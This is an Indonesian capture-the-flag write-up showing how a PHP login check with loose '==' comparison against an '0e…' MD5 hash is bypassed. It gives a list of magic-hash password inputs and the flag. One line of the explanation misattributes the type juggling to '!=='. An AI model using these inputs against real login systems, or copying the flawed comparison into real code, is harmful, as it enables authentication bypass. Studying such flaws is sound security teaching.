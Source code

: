 <h1><b>Bug Comparison</h1></b>
<pre>
Bug Comparison
</pre>
</b><h3>Solution</h3></b>
<p>Pada challenge ini kita diberikan source sebagai clue</p>

```php
$username = $_GET['username'];
$password = $_GET['password'];
$real_password = md5("venom19183419");
if (($password==$real_password && $password !== $real_password)|| ($real_password == $password &&  $real_password !== $password))
{
	if (strlen($password)==strlen($real_password) && $username == "admin")
	{
		echo "Flag";
	}
	else
	{
		echo "Failed";
	}
}
else
{
	echo "Failed";
}
```
<p align='justify'>Pada source terdapat 2 statment checking input username dan password, disana juga dipastikan bahwa username yaitu <b>admin</b>, yang perlu harus diperhatikan pada 
challenge ini yaitu perbedaan "==" dengan "===" atau "!=" dengan "!==".</p>
<pre>
"==" dan "!=" yaitu me-check kondisi yang isinya sama, tanpa memperhatikan type data
"===" dan "!==" yaitu me-check kondisi yang isinya dengan type datanya
</pre>
<p align='justify'>Pada cheking pertama yaitu isi $password dan $real_password harus bernilai sama(True), dan isi sama type data $real_pass tidak sama $password.</p> 
<p>Untuk bypass form dan logika statment dengan menginput username=admin dan list password yang dapat digunakan.</p>
<pre>
0e103599092511323593267831730970
0e103599092511323593267831730971
0e103599092511323593267831730972
0e103599092511323593267831730973
0e103599092511323593267831730974
0e103599092511323593267831730975
0e103599092511323593267831730976
0e103599092511323593267831730978
0e103599092511323593267831730979
00000000000000000000000000000000
</pre>
<p align='justify'>Dan MD5hash venom19183419 = 0e103599092511323593267831730977 sehingga tidak menghasilkan nilai True pada statment !==, Jadi angka terakhir harus dimodif dengan 1 byte angka yang lain, dan penjelasan lainnya lanjut dibawah.</p>

```php
echo ($password == $real_password);echo "</br>"; #True
echo ($password !== $real_password);echo "</br>"; #True
echo (($password == $real_password && $password !== $real_password)); #True
```
<p>Selanjutnya Logika dibalik operasi OR, yaitu kebalikan dari operasi sebelumnya.</p>

```php
echo ($real_password == $password);echo "</br>"; #True
echo ($real_password !== $password);echo "</br>"; #True
echo (($real_password == $password && $real_password !== $password)); #True
```
<p align='justify'>Ingat, tanda !== akan menjuggling type string dari <b>md5("venom19183419") = 0e103599092511323593267831730977</b> menjadi integer, sehingga 0e103599092511323593267831730977 dibaca menjadi 0 exponent 103599092511323593267831730977 atau 0**103599092511323593267831730977, e dilambangkan dengan exponent sehingga hasil (0**103599092511323593267831730977)=0.</p>

<p align='justify'>Sehingga logika ((1 AND 1) OR (1 AND 1)) = 1, dan lanjut ke statment ke-2 yaitu terdapat fungsi strlen() untuk variabel $password yang menentukan panjang password harus sama dengan strlen() variabel $real_password. Diketahui panjang hash MD5=32, berarti panjang $password harus 32 supaya bernilai 1(True) dan username harus <b>admin</b>, sehingga logikanya ((1 AND 1) AND 1) = 1. Sehingga muncul pesan dan flag didapatkan.</p>
<pre align='center'>
Congrast, your flag is VenomCTF{c0mpar1son_equal_4nd_1d3ntic}
</pre>
</b><h3>Flag</h3></b>
<pre>
VenomCTF{c0mpar1son_equal_4nd_1d3ntic}
</pre>
